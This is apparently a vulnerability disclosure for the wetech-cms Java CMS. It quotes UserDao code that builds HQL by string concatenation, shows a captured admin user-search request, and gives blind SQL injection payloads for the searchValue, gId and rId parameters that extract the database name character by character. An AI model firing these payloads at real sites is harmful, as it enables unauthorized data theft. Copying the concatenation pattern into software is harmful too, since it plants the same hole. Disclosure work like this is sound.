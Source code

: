 ```yaml
---
typora-root-url: ./img
---
```


**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

#### wetech-cms-master\wetech-core\src\main\java\tech\wetech\cms\dao\UserDao.java

```java
	@Override
	public Pager<User> findUser(String gId, String rId, String searchCode, String searchValue) {
		String hql = "from User u where 1=1";
		if (StringUtils.isNotBlank(searchCode) && StringUtils.isNotBlank(searchValue)) {
			if ("id".equals(searchCode)) {
				hql += " and u.id like '%" + searchValue + "%'";
			} else if ("username".equals(searchCode)) {
				hql += " and u.username like '%" + searchValue + "%'";
			} else if ("nickname".equals(searchCode)) {
				hql += " and u.nickname like '%" + searchValue + "%'";
			}
		}
		if (gId != null && !"".equals(gId)) {
			hql += "and u.id in (select ug.user.id from UserGroup ug where ug.group.id=" + gId + ")";
		}
		if (rId != null && !"".equals(rId)) {
			hql += "and u.id in (select ur.user.id from UserRole ur where ur.role.id=" + rId + ")";
		}
		
		return this.find(hql);
	}
```

​	Analyzing the code, I found that there are multiple parameters there with dynamic splicing.
​	From the SQL statement, we can see that there are three variables that use dynamic concatenation: searchValue, gId, and rId
​	Let's head to the front-end positioning function point. It was discovered that this is a user management feature in the admin console.

![image-20241128212129276](/image-20241128212129276.png)

​	According to the function point, we come to the user-managed search function, try to search and capture the packet, and the following packets are captured:

```http
GET /admin/user/list.do?draw=2&columns%5B0%5D%5Bdata%5D=id&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=false&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=id&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=false&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=username&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=false&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B3%5D%5Bdata%5D=nickname&columns%5B3%5D%5Bname%5D=&columns%5B3%5D%5Bsearchable%5D=true&columns%5B3%5D%5Borderable%5D=false&columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B4%5D%5Bdata%5D=status&columns%5B4%5D%5Bname%5D=&columns%5B4%5D%5Bsearchable%5D=true&columns%5B4%5D%5Borderable%5D=false&columns%5B4%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B4%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B5%5D%5Bdata%5D=email&columns%5B5%5D%5Bname%5D=&columns%5B5%5D%5Bsearchable%5D=true&columns%5B5%5D%5Borderable%5D=false&columns%5B5%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B5%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B6%5D%5Bdata%5D=phone&columns%5B6%5D%5Bname%5D=&columns%5B6%5D%5Bsearchable%5D=true&columns%5B6%5D%5Borderable%5D=false&columns%5B6%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B6%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B7%5D%5Bdata%5D=createDate&columns%5B7%5D%5Bname%5D=&columns%5B7%5D%5Bsearchable%5D=true&columns%5B7%5D%5Borderable%5D=false&columns%5B7%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B7%5D%5Bsearch%5D%5Bregex%5D=false&start=0&length=15&search%5Bvalue%5D=&search%5Bregex%5D=false&searchCode=id&searchValue=&_=1732691822696 HTTP/1.1
Host: 172.21.55.165:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://172.21.55.165:8888/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=5EA494FF429C210478C61A1E2BA26079; collapase-nav=collapse-nav
Connection: close
```

​	The searchValue in the GET parameter is the injection point, try to enter single quotation marks, report an error, try to construct an SQL statement, and get payload:

```sql
1' and id like (case when ascii(substr(database(),1,1))=1 then '1' else '%' end) and id like '
```

​	The injection method is the same as the previous SQL injection method.

###### gId、rId

​	Add a gId or rId to the GET parameters, and the payload is as follows:

```sql
2 and id like (case when ascii(substr(database(),1,1))=1 then '1' else '%' end) 
```
